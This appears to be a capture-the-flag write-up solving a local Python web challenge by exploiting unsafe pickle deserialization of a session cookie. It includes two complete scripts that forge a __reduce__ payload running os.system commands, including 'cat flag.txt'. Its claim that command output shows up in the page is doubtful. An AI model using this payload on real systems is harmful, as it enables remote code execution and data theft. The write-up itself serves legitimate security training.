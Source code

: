 # Cookie 4: The Pythonic Revenge - Solution

This document outlines the steps to solve the "Cookie 4" CTF challenge.

## 1. Initial Reconnaissance

First, we start the challenge by running `docker-compose up cookie4`. Navigating to the challenge URL (e.g., `http://localhost:5004`), we are presented with a new login page for "The Vault - Final Fortress". It seems our previous intrusions have led them to upgrade their systems.

## 2. Analyzing the Session Cookie

Just like in the previous challenges, let's inspect the cookies. We find a `session` cookie. The value appears to be Base64 encoded.

Let's decode it:

```bash
echo "YOUR_COOKIE_VALUE" | base64 -d
```

The output looks like gibberish, which is a strong hint that it's a serialized object, not just a simple string. Given the challenge is now in Python, this is likely a `pickle` string.

## 3. The Vulnerability: Unsafe Pickle Deserialization

Pickle is a Python library for serializing and deserializing Python objects. Deserializing user-controlled data with `pickle` is extremely dangerous because it can be tricked into executing arbitrary code. This is our entry point.

## 4. Crafting the Exploit

We need to create a malicious pickled object that, when deserialized by the server, will execute a command of our choosing. We can achieve this by creating a Python class with a `__reduce__` method. The `__reduce__` method tells `pickle` how to reconstruct the object, and we can abuse it to run system commands.

Here is the plan for our exploit script:
1.  Create a Python class that, when unpickled, executes a command.
2.  The `__reduce__` method of this class will return `(os.system, ('your_command_here',))`.
3.  We'll start with a simple command like `ls -la` to see what's in the current directory.
4.  Pickle an instance of this class.
5.  Base64 encode the pickled object.
6.  Send a request to the server with our malicious `session` cookie.

## 5. The Exploit Script

Here is a Python script to automate the process:

```python
import pickle
import base64
import requests
import os

class RCE:
    def __reduce__(self):
        # Command to be executed on the server
        cmd = 'ls -la' 
        return (os.system, (cmd,))

# Create an instance of our RCE class
pickled = pickle.dumps(RCE())

# Base64 encode the pickled object
encoded_pickle = base64.b64encode(pickled).decode('utf-8')

# The URL of the challenge
url = 'http://localhost:5004' # Change port if necessary

# Set the malicious cookie
cookies = {'session': encoded_pickle}

# Send the request
response = requests.get(url, cookies=cookies)

# Print the server's response
print(response.text)
```

Running this script, we should see the output of `ls -la` from the server's current directory in the response HTML.

## 6. Getting the Flag

Now that we have RCE, we can look for the flag. After running `ls -la`, we'll likely see a `flag.txt` file in the output.

Let's modify our exploit script to read the flag:

```python
import pickle
import base64
import requests
import os

class RCE:
    def __reduce__(self):
        # Command to read the flag
        cmd = 'cat flag.txt' 
        return (os.system, (cmd,))

# Create an instance of our RCE class
pickled = pickle.dumps(RCE())

# Base64 encode the pickled object
encoded_pickle = base64.b64encode(pickled).decode('utf-8')

# The URL of the challenge
url = 'http://localhost:5004' # Change port if necessary

# Set the malicious cookie
cookies = {'session': encoded_pickle}

# Send the request
response = requests.get(url, cookies=cookies)

# Print the server's response, which should contain the flag
print(response.text)
```

Running the updated script will print the page content, which will now include the flag. The challenge is solved!
